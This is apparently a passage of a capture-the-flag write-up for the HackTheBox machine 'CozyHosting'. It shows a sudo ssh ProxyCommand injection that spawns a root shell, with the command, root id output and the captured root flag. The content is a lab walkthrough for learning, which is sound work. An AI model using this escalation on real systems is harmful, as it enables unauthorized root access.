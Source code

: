 - This exploit first works by utilizing the `ProxyCommand` option to establish an ssh session through an intermediary host (specified to start a session with itself in this 
exploit). 
- The `ProxyCommand` variable is set to one argument: `;sh 0<&2 1>&2`. This command attempts to execute a shell with input/output redirection, this basically means we can 
inject a shell into the ssh process and since the process is running as root, our injected shell will have root privileges.

- Run the payload and grab the flag :vv

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
[sudo] password for josh: 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
996d9eef6aaf359c062c153cdbfe0af0
```